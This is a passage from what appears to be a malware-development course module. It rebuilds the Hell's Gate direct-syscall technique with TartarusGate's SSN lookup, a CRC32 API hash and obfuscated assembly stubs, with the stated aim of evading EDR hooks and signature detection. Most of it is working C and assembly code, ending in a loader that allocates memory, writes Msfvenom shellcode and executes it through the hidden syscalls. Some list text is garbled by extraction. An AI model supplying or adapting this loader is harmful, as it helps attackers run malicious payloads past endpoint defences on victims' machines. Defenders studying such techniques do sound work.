Introduction
The Syscalls - Hell's Gate module introduced the Hell's Gate technique, which bypasses userland hooks by searching for the syscall number in the hook bytes to be used later as a directly called syscall. This module updates the original Hell's Gate implementation that was demonstrated in that module.
The updates will make the implementation more custom and as a result, make it more stealthy and reduce signature-based detection. Additionally, the updated code will change the way the implementation retrieves a syscall's SSN by using TartarusGate's approach.
If you require a refresher on the original Hell's Gate implementation, visit the Hell's Gate GitHub repository.
Updating The String Hashing Algorithm
The original Hell's Gate implementation used the DJB2 string hashing algorithm. Updating the string hashing algorithm does not affect the Hell's Gate implementation, but modifying the string hashing algorithm will likely reduce the likelihood of signature detection. The djb2 function is replaced with the following function.
unsigned int crc32h(char* message) {
int i, crc;
unsigned int byte, c;
const unsigned int g0 = SEED, g1 = g0 >> 1,
g2 = g0 >> 2, g3 = g0 >> 3, g4 = g0 >> 4, g5 = g0 >> 5,
g6 = (g0 >> 6) ^ g0, g7 = ((g0 >> 6) ^ g0) >> 1;
i = 0;
crc = 0xFFFFFFFF;
while ((byte = message[i]) != 0) { // Get next byte.
crc = crc ^ byte;
c = ((crc << 31 >> 31) & g7) ^ ((crc << 30 >> 31) & g6) ^
((crc << 29 >> 31) & g5) ^ ((crc << 28 >> 31) & g4) ^
((crc << 27 >> 31) & g3) ^ ((crc << 26 >> 31) & g2) ^
((crc << 25 >> 31) & g1) ^ ((crc << 24 >> 31) & g0);
crc = ((unsigned)crc >> 8) ^ c;
i = i + 1;
}
return ~crc;
}The crc32h function is an implementation of the Cyclic Redundancy Check string hashing algorithm and will be used in this module. To promote code readability and maintainability, the crc32h function will be called through the following macro.
#define HASH(API) crc32h((char*)API)Where the API variable is the string to hash using crc32h.
Updating GetVxTableEntry
Creating The NTDLL_CONFIG Structure
Recall that GetVxTableEntry is the function used to retrieve the address and SSN of a specified syscall using its hash. The GetVxTableEntry function calculates the required RVAs to search for the specified hash and takes two additional parameters, pModuleBase and pImageExportDirectory, which are not related to its purpose. To improve efficiency, the NTDLL_CONFIG structure is created and shown below.
typedef struct _NTDLL_CONFIG
{
PDWORD pdwArrayOfAddresses; // The VA of the array of addresses of ntdll's exported functions
PDWORD pdwArrayOfNames; // The VA of the array of names of ntdll's exported functions
PWORD pwArrayOfOrdinals; // The VA of the array of ordinals of ntdll's exported functions
DWORD dwNumberOfNames; // The number of exported functions from ntdll.dll
ULONG_PTR uModule; // The base address of ntdll - requred to calculated future RVAs
}NTDLL_CONFIG, *PNTDLL_CONFIG;
// global variable
NTDLL_CONFIG g_NtdllConf = { 0 };Creating InitNtdllConfigStructure
Furthermore, a private function, InitNtdllConfigStructure, is created and called by GetVxTableEntry in order to initialize the g_NtdllConf global structure. This allows GetVxTableEntry to access values from inside NTDLL's headers without requiring additional parameters or calculations each time. As a result, InitNtdllConfigStructure initializes the g_NtdllConf structure for future usage.
The InitNtdllConfigStructure function fetches the NTDLL base address and performs PE parsing to retrieve the export directory structure. The function then calculates the necessary RVAs to fill the g_NtdllConf structure with the required data. The function returns TRUE if it succeeds in performing these actions and FALSE if g_NtdllConf still contains uninitialized elements.
BOOL InitNtdllConfigStructure() {
// getting peb
PPEB pPeb = (PPEB)__readgsqword(0x60);
if (!pPeb || pPeb->OSMajorVersion != 0xA)
return FALSE;
// getting ntdll.dll module (skipping our local image element)
PLDR_DATA_TABLE_ENTRY pLdr = (PLDR_DATA_TABLE_ENTRY)((PBYTE)pPeb->LoaderData->InMemoryOrderModuleList.Flink->Flink - 0x10);
// getting ntdll's base address
ULONG_PTR uModule = (ULONG_PTR)(pLdr->DllBase);
if (!uModule)
return FALSE;
// fetching the dos header of ntdll
PIMAGE_DOS_HEADER pImgDosHdr = (PIMAGE_DOS_HEADER)uModule;
if (pImgDosHdr->e_magic != IMAGE_DOS_SIGNATURE)
return FALSE;
// fetching the nt headers of ntdll
PIMAGE_NT_HEADERS pImgNtHdrs = (PIMAGE_NT_HEADERS)(uModule + pImgDosHdr->e_lfanew);
if (pImgNtHdrs->Signature != IMAGE_NT_SIGNATURE)
return FALSE;
// fetching the export directory of ntdll
PIMAGE_EXPORT_DIRECTORY pImgExpDir = (PIMAGE_EXPORT_DIRECTORY)(uModule + pImgNtHdrs->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);
if (!pImgExpDir)
return FALSE;
// initalizing the 'g_NtdllConf' structure's element
g_NtdllConf.uModule = uModule;
g_NtdllConf.dwNumberOfNames = pImgExpDir->NumberOfNames;
g_NtdllConf.pdwArrayOfNames = (PDWORD)(uModule + pImgExpDir->AddressOfNames);
g_NtdllConf.pdwArrayOfAddresses = (PDWORD)(uModule + pImgExpDir->AddressOfFunctions);
g_NtdllConf.pwArrayOfOrdinals = (PWORD)(uModule + pImgExpDir->AddressOfNameOrdinals);
// checking
if (!g_NtdllConf.uModule || !g_NtdllConf.dwNumberOfNames || !g_NtdllConf.pdwArrayOfNames || !g_NtdllConf.pdwArrayOfAddresses || !g_NtdllConf.pwArrayOfOrdinals)
return FALSE;
else
return TRUE;
}Renaming & Updating GetVxTableEntry
GetVxTableEntry is renamed to FetchNtSyscall and will have two parameters: dwSysHash, the hash value of the specified syscall to fetch the SSN for and pNtSys, a pointer to an NT_SYSCALL structure which contains everything required to perform a direct syscall. This structure will be initialized by FetchNtSyscall.
typedef struct _NT_SYSCALL
{
DWORD dwSSn; // syscall number
DWORD dwSyscallHash; // syscall hash value
PVOID pSyscallAddress; // syscall address
}NT_SYSCALL, *PNT_SYSCALL;The FetchNtSyscall function does the following:
g_NtdllConf structure is initialized. If not, it calls InitNtdllConfigStructure to do so.FALSE.pNtSys structure.pNtSys structure.NT_SYSCALL structure are initialized.BOOL FetchNtSyscall(IN DWORD dwSysHash, OUT PNT_SYSCALL pNtSys) {
// initialize ntdll config if not found
if (!g_NtdllConf.uModule) {
if (!InitNtdllConfigStructure())
return FALSE;
}
// if no hash value was specified
if (dwSysHash != NULL)
pNtSys->dwSyscallHash = dwSysHash;
else
return FALSE;
// searching for 'dwSysHash' in the exported functions of ntdll
for (size_t i = 0; i < g_NtdllConf.dwNumberOfNames; i++) {
PCHAR pcFuncName = (PCHAR)(g_NtdllConf.uModule + g_NtdllConf.pdwArrayOfNames[i]);
PVOID pFuncAddress = (PVOID)(g_NtdllConf.uModule + g_NtdllConf.pdwArrayOfAddresses[g_NtdllConf.pwArrayOfOrdinals[i]]);
// if syscall found
if (HASH(pcFuncName) == dwSysHash) {
// save the address
pNtSys->pSyscallAddress = pFuncAddress;
WORD cw = 0;
// search for the ssn
while (TRUE) {
// reached 'ret' instruction - we are so far down
if (*((PBYTE)pFuncAddress + cw) == 0xC3 && !pNtSys->dwSSn)
return FALSE;
// reached 'syscall' instruction - we are so far down
if (*((PBYTE)pFuncAddress + cw) == 0x0F && *((PBYTE)pFuncAddress + cw + 1) == 0x05 && !pNtSys->dwSSn)
return FALSE;
if (*((PBYTE)pFuncAddress + cw) == 0x4C
&& *((PBYTE)pFuncAddress + 1 + cw) == 0x8B
&& *((PBYTE)pFuncAddress + 2 + cw) == 0xD1
&& *((PBYTE)pFuncAddress + 3 + cw) == 0xB8
&& *((PBYTE)pFuncAddress + 6 + cw) == 0x00
&& *((PBYTE)pFuncAddress + 7 + cw) == 0x00) {
BYTE high = *((PBYTE)pFuncAddress + 5 + cw);
BYTE low = *((PBYTE)pFuncAddress + 4 + cw);
// save the ssn
pNtSys->dwSSn = (high << 8) | low;
break; // break while-loop
}
cw++;
}
break; // break for-loop
}
}
// checking if all NT_SYSCALL's (pNtSys) element are initialized
if (pNtSys->dwSSn != NULL && pNtSys->pSyscallAddress != NULL && pNtSys->dwSyscallHash != NULL)
return TRUE;
else
return FALSE;
}Enhancing SSN Retrieval Logic
Recall when Hell's Gate searches for an SSN, it limits the search boundary by checking for the syscall or ret instructions. If one of these instructions is found and the SSN has not yet been obtained, the search fails, preventing the retrieval of a wrong SSN value of another syscall function.

TartarusGate
There is an alternative way of searching for the SSN that was introduced in TartarusGate, which is illustrated in the image below.

Assume syscall B is being called using the Hell's Gate implementation, it will search for the 0x4c, 0x8b, 0xd1, 0xb8 opcodes which represent the mov r10, rcx and mov rcx, ssn instructions. But as shown in the image above, there are no such opcodes, meaning Hell's Gate's implementation would fail in obtaining the SSN of syscall B.
TartarusGate uses neighboring syscalls to calculate the SSN of the specified syscall. If TartarusGate searches upwards then the SSN of syscall B is the SSN of syscall A - 1. On the other hand, if TartarusGate searches downwards then the SSN of syscall B is the SSN of syscall C + 1.
TartarusGate Example
When NtProtectVirtualMemory is unhooked, its SSN is 0x50.

The image below uses ZwIsProcessInJob as syscall A, NtProtectVirtualMemory as syscall B, and NtQuerySection as syscall C. NtProtectVirtualMemory is hooked, but its SSN can still be calculated using the adjacent syscalls (A & C).

sing the previously explained logic where upward search uses SSN of syscall A - 1 and downward search uses SSN of syscall C + 1, they both successfully result in NtProtectVirtualMemory's correct SSN, 0x50.

Note that the search path can extend beyond the direct neighboring syscalls. For example, if one is calling syscall C, which is hooked, then syscall C's SSN is equal to the following:
The image below illustrates this more clearly, where idx is the number to add or subtract.

Updating FetchNtSyscall
After understanding how TartarusGate works, the FetchNtSyscall function is updated to use that search logic. Some aspects of the updated FetchNtSyscall function:
RANGE is 255, representing the maximum number of syscalls to go up or down in the memory.UP is equal to 32, which is the size of a syscall. This is used when searching upwards.DOWN is equal to -32, which is the negative size of a syscall. This is used when searching downward.(high << 8) | low + idx, where idx is the number of syscalls above the current syscall (pFuncAddress's address).(high << 8) | low - idx, where idx is the number of syscalls below the current syscall (pFuncAddress address).BOOL FetchNtSyscall(IN DWORD dwSysHash, OUT PNT_SYSCALL pNtSys) {
// initialize ntdll config if not found
if (!g_NtdllConf.uModule) {
if (!InitNtdllConfigStructure())
return FALSE;
}
if (dwSysHash != NULL)
pNtSys->dwSyscallHash = dwSysHash;
else
return FALSE;
for (size_t i = 0; i < g_NtdllConf.dwNumberOfNames; i++){
PCHAR pcFuncName = (PCHAR)(g_NtdllConf.uModule + g_NtdllConf.pdwArrayOfNames[i]);
PVOID pFuncAddress = (PVOID)(g_NtdllConf.uModule + g_NtdllConf.pdwArrayOfAddresses[g_NtdllConf.pwArrayOfOrdinals[i]]);
pNtSys->pSyscallAddress = pFuncAddress;
// if syscall found
if (HASH(pcFuncName) == dwSysHash) {
if (*((PBYTE)pFuncAddress) == 0x4C
&& *((PBYTE)pFuncAddress + 1) == 0x8B
&& *((PBYTE)pFuncAddress + 2) == 0xD1
&& *((PBYTE)pFuncAddress + 3) == 0xB8
&& *((PBYTE)pFuncAddress + 6) == 0x00
&& *((PBYTE)pFuncAddress + 7) == 0x00) {
BYTE high = *((PBYTE)pFuncAddress + 5);
BYTE low = *((PBYTE)pFuncAddress + 4);
pNtSys->dwSSn = (high << 8) | low;
break; // break for-loop [i]
}
// if hooked - scenario 1
if (*((PBYTE)pFuncAddress) == 0xE9) {
for (WORD idx = 1; idx <= RANGE; idx++) {
// check neighboring syscall down
if (*((PBYTE)pFuncAddress + idx * DOWN) == 0x4C
&& *((PBYTE)pFuncAddress + 1 + idx * DOWN) == 0x8B
&& *((PBYTE)pFuncAddress + 2 + idx * DOWN) == 0xD1
&& *((PBYTE)pFuncAddress + 3 + idx * DOWN) == 0xB8
&& *((PBYTE)pFuncAddress + 6 + idx * DOWN) == 0x00
&& *((PBYTE)pFuncAddress + 7 + idx * DOWN) == 0x00) {
BYTE high = *((PBYTE)pFuncAddress + 5 + idx * DOWN);
BYTE low = *((PBYTE)pFuncAddress + 4 + idx * DOWN);
pNtSys->dwSSn = (high << 8) | low - idx;
break; // break for-loop [idx]
}
// check neighboring syscall up
if (*((PBYTE)pFuncAddress + idx * UP) == 0x4C
&& *((PBYTE)pFuncAddress + 1 + idx * UP) == 0x8B
&& *((PBYTE)pFuncAddress + 2 + idx * UP) == 0xD1
&& *((PBYTE)pFuncAddress + 3 + idx * UP) == 0xB8
&& *((PBYTE)pFuncAddress + 6 + idx * UP) == 0x00
&& *((PBYTE)pFuncAddress + 7 + idx * UP) == 0x00) {
BYTE high = *((PBYTE)pFuncAddress + 5 + idx * UP);
BYTE low = *((PBYTE)pFuncAddress + 4 + idx * UP);
pNtSys->dwSSn = (high << 8) | low + idx;
break; // break for-loop [idx]
}
}
}
// if hooked - scenario 2
if (*((PBYTE)pFuncAddress + 3) == 0xE9) {
for (WORD idx = 1; idx <= RANGE; idx++) {
// check neighboring syscall down
if (*((PBYTE)pFuncAddress + idx * DOWN) == 0x4C
&& *((PBYTE)pFuncAddress + 1 + idx * DOWN) == 0x8B
&& *((PBYTE)pFuncAddress + 2 + idx * DOWN) == 0xD1
&& *((PBYTE)pFuncAddress + 3 + idx * DOWN) == 0xB8
&& *((PBYTE)pFuncAddress + 6 + idx * DOWN) == 0x00
&& *((PBYTE)pFuncAddress + 7 + idx * DOWN) == 0x00) {
BYTE high = *((PBYTE)pFuncAddress + 5 + idx * DOWN);
BYTE low = *((PBYTE)pFuncAddress + 4 + idx * DOWN);
pNtSys->dwSSn = (high << 8) | low - idx;
break; // break for-loop [idx]
}
// check neighboring syscall up
if (*((PBYTE)pFuncAddress + idx * UP) == 0x4C
&& *((PBYTE)pFuncAddress + 1 + idx * UP) == 0x8B
&& *((PBYTE)pFuncAddress + 2 + idx * UP) == 0xD1
&& *((PBYTE)pFuncAddress + 3 + idx * UP) == 0xB8
&& *((PBYTE)pFuncAddress + 6 + idx * UP) == 0x00
&& *((PBYTE)pFuncAddress + 7 + idx * UP) == 0x00) {
BYTE high = *((PBYTE)pFuncAddress + 5 + idx * UP);
BYTE low = *((PBYTE)pFuncAddress + 4 + idx * UP);
pNtSys->dwSSn = (high << 8) | low + idx;
break; // break for-loop [idx]
}
}
}
break; // break for-loop [i]
}
}
if (pNtSys->dwSSn != NULL && pNtSys->pSyscallAddress != NULL && pNtSys->dwSyscallHash != NULL)
return TRUE;
else
return FALSE;
}Updating Assembly Functions
The functions HellsGate and HellDescent, found in hellsgate.asm will be replaced with SetSSn and RunSyscall respectively. SetSSn requires the SSN of the syscall to be called and RunSyscall will execute it.
There aren't any major updates to these two functions, however, additional assembly instructions were added which do not affect the program's execution but will add obfuscation.
Unobfuscated Assembly Functions
SetSSN & RunSyscall without unnecessary assembly instructions.
.data
wSystemCall DWORD 0000h
.code
SetSSn PROC
mov wSystemCall, 000h
mov wSystemCall, ecx
ret
SetSSn ENDP
RunSyscall PROC
mov r10, rcx
mov eax, wSystemCall
syscall
ret
RunSyscall ENDP
endObfuscated Assembly Functions
SetSSN & RunSyscall with added assembly instructions.
.data
wSystemCall DWORD 0000h
.code
SetSSn PROC
xor eax, eax ; eax = 0
mov wSystemCall, eax ; wSystemCall = 0
mov eax, ecx ; eax = ssn
mov r8d, eax ; r8d = eax = ssn
mov wSystemCall, r8d ; wSystemCall = r8d = eax = ssn
ret
SetSSn ENDP
RunSyscall PROC
xor r10, r10 ; r10 = 0
mov rax, rcx ; rax = rcx
mov r10, rax ; r10 = rax = rcx
mov eax, wSystemCall ; eax = ssn
jmp Run ; execute 'Run'
xor eax, eax ; wont run
xor rcx, rcx ; wont run
shl r10, 2 ; wont run
Run:
syscall
ret
RunSyscall ENDP
endUpdating The Main Function
Creating The NTAPI_FUNC Structure
The updated Hell's Gate implementation is now completed. The last part is to test the implementation which requires the main function. To do so, a new structure is created that replaces the VX_TABLE. The new structure, NTAPI_FUNC, will contain the syscalls' information. Storing this information in a structure will enable calling the syscalls multiple times when initialized as a global variable.
The NTAPI_FUNC structure is shown below.
typedef struct _NTAPI_FUNC
{
NT_SYSCALL NtAllocateVirtualMemory;
NT_SYSCALL NtProtectVirtualMemory;
NT_SYSCALL NtCreateThreadEx;
NT_SYSCALL NtWaitForSingleObject;
}NTAPI_FUNC, *PNTAPI_FUNC;
// global variable
NTAPI_FUNC g_Nt = { 0 };Creating InitializeNtSyscalls
To populate the g_Nt global variable, the newly created function, InitializeNtSyscalls, will call FetchNtSyscall to initialize all members of NTAPI_FUNC.
BOOL InitializeNtSyscalls() {
if (!FetchNtSyscall(NtAllocateVirtualMemory_CRC32, &g_Nt.NtAllocateVirtualMemory)) {
printf("[!] Failed In Obtaining The Syscall Number Of NtAllocateVirtualMemory \n");
return FALSE;
}
printf("[+] Syscall Number Of NtAllocateVirtualMemory Is : 0x%0.2X \n", g_Nt.NtAllocateVirtualMemory.dwSSn);
if (!FetchNtSyscall(NtProtectVirtualMemory_CRC32, &g_Nt.NtProtectVirtualMemory)) {
printf("[!] Failed In Obtaining The Syscall Number Of NtProtectVirtualMemory \n");
return FALSE;
}
printf("[+] Syscall Number Of NtProtectVirtualMemory Is : 0x%0.2X \n", g_Nt.NtProtectVirtualMemory.dwSSn);
if (!FetchNtSyscall(NtCreateThreadEx_CRC32, &g_Nt.NtCreateThreadEx)) {
printf("[!] Failed In Obtaining The Syscall Number Of NtCreateThreadEx \n");
return FALSE;
}
printf("[+] Syscall Number Of NtCreateThreadEx Is : 0x%0.2X \n", g_Nt.NtCreateThreadEx.dwSSn);
if (!FetchNtSyscall(NtWaitForSingleObject_CRC32, &g_Nt.NtWaitForSingleObject)) {
printf("[!] Failed In Obtaining The Syscall Number Of NtWaitForSingleObject \n");
return FALSE;
}
printf("[+] Syscall Number Of NtWaitForSingleObject Is : 0x%0.2X \n", g_Nt.NtWaitForSingleObject.dwSSn);
return TRUE;
}NtAllocateVirtualMemory_CRC32, NtProtectVirtualMemory_CRC32, NtCreateThreadEx_CRC32, and NtWaitForSingleObject_CRC32 are the hash values of the respective syscalls.
Hasher Program
The syscall hashes are generated using the Hasher program which contains the crc32h hashing function. Hasher prints the values of its crc32h's function output.
#include <Windows.h>#include <stdio.h>#define SEED 0xEDB88320#define STR "_CRC32"unsigned int crc32h(char* message) {
int i, crc;
unsigned int byte, c;
const unsigned int g0 = SEED, g1 = g0 >> 1,
g2 = g0 >> 2, g3 = g0 >> 3, g4 = g0 >> 4, g5 = g0 >> 5,
g6 = (g0 >> 6) ^ g0, g7 = ((g0 >> 6) ^ g0) >> 1;
i = 0;
crc = 0xFFFFFFFF;
while ((byte = message[i]) != 0) { // Get next byte.
crc = crc ^ byte;
c = ((crc << 31 >> 31) & g7) ^ ((crc << 30 >> 31) & g6) ^
((crc << 29 >> 31) & g5) ^ ((crc << 28 >> 31) & g4) ^
((crc << 27 >> 31) & g3) ^ ((crc << 26 >> 31) & g2) ^
((crc << 25 >> 31) & g1) ^ ((crc << 24 >> 31) & g0);
crc = ((unsigned)crc >> 8) ^ c;
i = i + 1;
}
return ~crc;
}
#define HASH(API) crc32h((char*)API)int main() {
printf("#define %s%s \t 0x%0.8X \n", "NtAllocateVirtualMemory", STR, HASH("NtAllocateVirtualMemory"));
printf("#define %s%s \t 0x%0.8X \n", "NtProtectVirtualMemory", STR, HASH("NtProtectVirtualMemory"));
printf("#define %s%s \t 0x%0.8X \n", "NtCreateThreadEx", STR, HASH("NtCreateThreadEx"));
printf("#define %s%s \t 0x%0.8X \n", "NtWaitForSingleObject", STR, HASH("NtWaitForSingleObject"));
}
Main Function
The InitializeNtSyscalls function is called first, followed by syscalls to perform a local code injection using Msfvenom's shellcode. The call to the syscalls is done using the SetSSn and RunSyscall assembly functions previously described.
int main() {
NTSTATUS STATUS = NULL;
PVOID pAddress = NULL;
SIZE_T sSize = sizeof(Payload);
DWORD dwOld = NULL;
HANDLE hProcess = (HANDLE)-1, // local process
hThread = NULL;
// initializing the used syscalls
if (!InitializeNtSyscalls()) {
printf("[!] Failed To Initialize The Specified Direct-Syscalls \n");
return -1;
}
// allocating memory
SetSSn(g_Nt.NtAllocateVirtualMemory.dwSSn);
if ((STATUS = RunSyscall(hProcess, &pAddress, 0, &sSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE)) != 0x00 || pAddress == NULL) {
printf("[!] NtAllocateVirtualMemory Failed With Error: 0x%0.8X \n", STATUS);
return -1;
}
// copying the payload
memcpy(pAddress, Payload, sizeof(Payload));
sSize = sizeof(Payload);
// changing memory protection
SetSSn(g_Nt.NtProtectVirtualMemory.dwSSn);
if ((STATUS = RunSyscall(hProcess, &pAddress, &sSize, PAGE_EXECUTE_READ, &dwOld)) != 0x00) {
printf("[!] NtProtectVirtualMemory Failed With Error: 0x%0.8X \n", STATUS);
return -1;
}
// executing the payload
SetSSn(g_Nt.NtCreateThreadEx.dwSSn);
if ((STATUS = RunSyscall(&hThread, THREAD_ALL_ACCESS, NULL, hProcess, pAddress, NULL, FALSE, NULL, NULL, NULL, NULL)) != 0x00) {
printf("[!] NtCreateThreadEx Failed With Error: 0x%0.8X \n", STATUS);
return -1;
}
// waiting for the payload
SetSSn(g_Nt.NtWaitForSingleObject.dwSSn);
if ((STATUS = RunSyscall(hThread, FALSE, NULL)) != 0x00) {
printf("[!] NtWaitForSingleObject Failed With Error: 0x%0.8X \n", STATUS);
return -1;
}
printf("[#] Press <Enter> To Quit ... ");
getchar();
return 0;
}Demo 1 - Without TartarusGate
MalDevEdr.dll is injected into the Hell's Gate implementation that does not use TartarusGate to find an SSN. This will fail when searching for the SSN, as expected.
MalDevEdr.dll into the Hell's Gate implementation.

• NtProtectVirtualMemory is hooked.
